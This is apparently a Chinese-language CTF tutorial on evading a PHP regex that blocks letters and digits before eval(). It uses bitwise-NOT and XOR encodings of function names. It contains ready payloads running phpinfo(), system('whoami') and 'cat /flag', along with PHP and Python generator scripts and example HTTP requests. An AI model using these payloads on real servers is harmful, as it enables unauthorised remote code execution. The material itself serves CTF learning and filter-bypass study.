

## 一句话概括

当 `eval()` 的输入被正则禁止出现字母和数字（如 `/[a-z0-9]/i`）时，可以用 PHP 的**位取反 `~`** 或**异或 `^`** 把函数名"降级"成一串非字母数字的字节，再靠 **URL 编码**把它搬运到服务端，PHP 在解码后重新还原出函数名并调用。

## 原理

### 1. 过滤发生在哪一层

题目的典型代码：

```php
<?php
if (!preg_match('/[a-z0-9]/is', $_GET['code'])) {
    eval($_GET['code']);
}
```

关键在于：`preg_match` 检查的是 **PHP 拿到手的字符串**，也就是 **URL 解码之后** 的原始内容。而 HTTP 传输时我们发的却是 URL 编码形式。两者可以完全不同：

```text
我们发送（URL 编码）：  (~%8F%97%8F%96%91%99%90)();
服务端 URL 解码后：     ( 0x8F 0x97 0x8F 0x96 0x91 0x99 0x90 )();
正则检查的字符串：      只有 ~ ( ) 和 7 个高位字节 —— 没有字母数字 → 通过
PHP 执行 ~ 运算后：     ~0x8F = 'p', ~0x97 = 'h', ... → "phpinfo"
```

**"传输层编码"与"源码层内容"分离，正是这类绕过成立的根基。** 正则管不到 URL 编码里的 `8F`，因为那只是编码的书写形式，解码后并不存在字符 `8`、`F`。

### 2. 取反（`~`）：逐字节取二进制补码

PHP 对字符串使用 `~` 时，是**逐字节**按位取反（`byte ^ 0xFF`），单个字符也会得到一个单字符结果：

| 原字符 | ASCII | 取反后 | 结果字节 |
|---|---|---|---|
| `p` | 0x70 | `~0x70` | 0x8F |
| `h` | 0x68 | `~0x68` | 0x97 |
| `i` | 0x69 | `~0x69` | 0x96 |

因为 ASCII 可打印字符都在 0x20–0x7E，取反后必然落在 0x81–0xDF —— **天然全是非字母数字的高位字节**，这正是取反法适用范围最广的原因。

### 3. 异或（`^`）：两个非字母数字字符"夹"出目标字符

任意字符都满足 `a ^ b = c` ⟺ `a ^ c = b`。所以我们只要为每个目标字符找到**两个都是非字母数字**的字符 `x, y`，令 `x ^ y` 等于它即可：

| 目标 | 计算式 | 验证 |
|---|---|---|
| `a` | `'!' ^ '@'` | 0x21 ^ 0x40 = 0x61 |
| `s` | `'(' ^ '['` | 0x28 ^ 0x5B = 0x73 |
| `y` | `'$' ^ ']'` | 0x24 ^ 0x5D = 0x79 |
| `t` | `')' ^ ']'` | 0x29 ^ 0x5D = 0x74 |
| `e` | `':' ^ '_'` | 0x3A ^ 0x5F = 0x65 |

于是 `"system"` 可以写成：

```php
('($():-' ^ '[][]_@')
```

异或的**局限**：并非每个字符都能找到两个合规（非字母数字且不触发传输/引号问题）的字符来夹逼；取反则对任意字符都成立，所以实践中取反更常用，异或更多作为"取反被额外过滤掉 `~`"时的备选。



## 利用条件

1. **存在代码执行点**：`eval()`（本类手法最典型）、`assert()`、`create_function()`，或能间接把字符串当代码跑的地方
2. **过滤只针对字母数字**：如 `/[a-z0-9]/i`。若连 `~ ^ ( ) [ ] _ %` 也一并过滤，则本文手法不成立
3. **PHP 版本支持动态调用**：把字符串当函数名调用 `(字符串)(...)`，**PHP 7 起可直接使用**；PHP 5.x 受限，通常要借助 `assert()` 等把整段当代码执行
4. **传输通道允许**：payload 一般放在 GET/POST 参数里，注意 `+`、`&`、`%`、`#` 等 URL 特殊字符需要二次编码

## Payload 速查

| 目的 | Payload |
|---|---|
| 执行 `phpinfo()` | `(~%8F%97%8F%96%91%99%90)();` |
| 执行 `system("whoami")` | `(~%8C%86%8C%8B%9A%92)(~%88%97%90%9E%92%96);` |
| 执行 `system("cat /flag")` | 用生成脚本对 `cat /flag` 逐字节取反后拼接 |
| 异或形式（`system`） | `('($():-'^'[][]_@')` |
| 异或形式（`whoami` 参数） | `('((/!-)'^'_@@@@@')` |
| 直接读文件 | 用 `system` 或 `file_get_contents` 的取反形式 |

> 取反结果里全是 `%XX`，**天然是合法的 URL 编码**，不需要额外处理；异或结果里含 `+`、`&`、`%` 等字符时，务必再编码一次（`+`→`%2B`、`&`→`%26`、`%`→`%25`）。

## 完整示例

### 步骤一：用脚本生成取反串

```php
<?php
// 把目标字符串逐字符取反，输出 %XX 形式的 URL 编码串
function neg($s) {
    $r = '';
    for ($i = 0; $i < strlen($s); $i++) {
        $r .= '%' . strtoupper(bin2hex(~$s[$i]));   // bin2hex 默认小写，转大写仅为美观
    }
    return $r;
}

echo neg('phpinfo'), "\n";   // %8F%97%8F%96%91%99%90
echo neg('system'),  "\n";   // %8C%86%8C%8B%9A%92
echo neg('whoami'),  "\n";   // %88%97%90%9E%92%96
```

等价的 Python 版本：

```python
def neg(s):
    return ''.join('%%%02X' % ((~ord(c)) & 0xFF) for c in s)

print(neg('phpinfo'))   # %8F%97%8F%96%91%99%90
print(neg('system'))    # %8C%86%8C%8B%9A%92
print(neg('whoami'))    # %88%97%90%9E%92%96
```

### 步骤二：拼成 payload

```http
GET /?code=(~%8F%97%8F%96%91%99%90)(); HTTP/1.1
Host: 靶机地址
```

执行链路：

```text
(~%8F%97%8F%96%91%99%90)();
   │
   ├─ URL 解码：0x8F 0x97 0x8F 0x96 0x91 0x99 0x90
   ├─ ~ 逐字节取反：p h p i n f o
   └─ 加 () 调用 → phpinfo()   →   页面打印 phpinfo 表格，证明代码执行成功
```

### 步骤三：执行系统命令

```http
GET /?code=(~%8C%86%8C%8B%9A%92)(~%88%97%90%9E%92%96); HTTP/1.1
Host: 靶机地址
```

等价于 `system("whoami")`。要读 flag，把参数 `whoami` 换成 `cat /flag` 再取反一次即可：

```python
print(neg('cat /flag'))   # 生成后填进第二个括号里
```

### 步骤四：异或生成器

```php
<?php
// 为一个字符串找出两组"非字母数字"字符，使其逐位异或恰好等于原串
function xor_encode($s) {
    $a = ''; $b = '';
    for ($i = 0; $i < strlen($s); $i++) {
        $t = ord($s[$i]);
        for ($x = 33; $x < 127; $x++) {
            $y = $x ^ $t;
            if ($y > 32 && $y < 127
                && !ctype_alnum(chr($x)) && !ctype_alnum(chr($y))) {
                $a .= chr($x);
                $b .= chr($y);
                break;
            }
        }
    }
    return [$a, $b];
}

[$a, $b] = xor_encode('system');
echo "('$a'^'$b')\n";   // ('($():-'^'[][]_@')
```

## 踩坑与备注

- **原笔记里的 `whoami` 取反串是错的**：原文写作 `~%9C%9E%8B%DF%99%93%9E%98%D1%8F%97%8F`，长度是 11 字节而 `whoami` 只有 6 个字符，明显是抄录时的串码错误。正确结果为 `~%88%97%90%9E%92%96`（本文已按逐字节计算修正）。
- **换行/空格也要绕**：整段 payload 不能出现字母数字，所以分隔符只能用 `;`、`(`、`)`、`[`、`]`、`%` 之类；别顺手敲了空格。
- **参数同样要编码**：`system` 的**参数**也是字符串，也含字母数字，必须一起取反/异或，否则正则照样拦下。
- **PHP 版本决定能不能调用**：`("phpinfo")()` 这种"字符串直接当函数调用"在 PHP 7 可用；PHP 5.x 需改用 `assert()` 或先赋值给变量再 `$f()`。先确认目标 PHP 版本再选 payload。
- **取反 vs 异或怎么选**：先试取反（覆盖全、纯 `%XX` 最干净）；只有当 `~` 也被过滤时才退到异或。
- 同族还有其他构造思路：**自增**（PHP 中 `'a'++` 得 `'b'`、`'z'++` 得 `'aa'`，可用极少数初始字符"滚"出整个字母表）、**或运算 `|`**、**字符串下标**等，原理类似 —— 都是用非字母数字的表达式在运行时"算出"目标字符。
